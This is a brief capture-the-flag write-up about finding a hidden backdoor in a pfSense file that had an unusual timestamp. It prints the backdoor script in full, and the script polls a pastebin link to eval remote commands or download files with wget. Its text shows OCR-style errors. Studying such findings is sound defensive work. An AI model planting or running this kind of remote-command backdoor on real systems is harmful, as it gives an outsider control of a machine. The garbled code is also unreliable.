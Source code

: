 # SeaShell

![](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/cynet-ir/2020-05-09-03-08-18.png)

## Solution:

The challenge ask us to find the reverse shell on one of the PFsense file.

After enumerate all the files, we found out that the file `resetabble` had a differrent timestamp than the others.

![](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/cynet-ir/2020-05-28-16-02-40.png)

Open the file using any text editor, and we can see a pastebin link

```
#!/usr/local/bin/bash

r=$(curl --write-out "#%s{response_code}" --silent https://pastebin.com/KLK7YKxd )}
cc=$(echo $r | cut -f1 -d#)
ss=$(echo $r | cut -f2 -d#)

if [ $ss -eq 200 ]
then
	if [[ $cc == "0" J]
	then
		exit 0
	fi
	sc=$(echo $cc | cut -f1 -d!)
	if [[ $sc == "e" ]]
	then
		a=$(echo $cc | cut -f2 -d!)
		eval "$a"
	fi
	if [[ $se == "d" J]
	then
		a=$(echo $cc | cut -f2 -d!)
		b=$(echo $cc | cut -f3 -d!)
		wget $a -0 $b
	fi
	if [[ $sc == "p" ]]
	then
		a=$(echo $cc | cut -f2 -d!)
		ping -c 1 $a
	fi
fi
```

The pastebin link contain the flag we looking for.

![](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/cynet-ir/2020-05-28-16-04-16.png)
